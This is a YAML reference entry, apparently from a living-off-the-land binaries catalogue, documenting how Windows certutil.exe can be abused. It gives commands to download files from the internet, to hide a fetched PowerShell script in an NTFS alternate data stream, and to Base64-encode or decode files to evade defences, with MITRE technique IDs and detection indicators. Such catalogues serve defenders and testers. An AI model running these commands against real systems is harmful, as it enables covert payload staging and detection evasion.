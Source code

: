 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handeling certificates
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/techniques/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -encode inputFileName encodedOutputFileName
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027
    MitreLink: https://attack.mitre.org/wiki/Technique/T1027
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -decode encodedInputFileName decodedOutputFileName
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    MitreLink: https://attack.mitre.org/wiki/Technique/T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Code_Sample: 
  - Code:
Detection:
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
  - Link: https://twitter.com/egre55/status/1087685529016193025
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@Moriarty_Meng'
  - Person: egre55
    Handle: '@egre55'
---
```

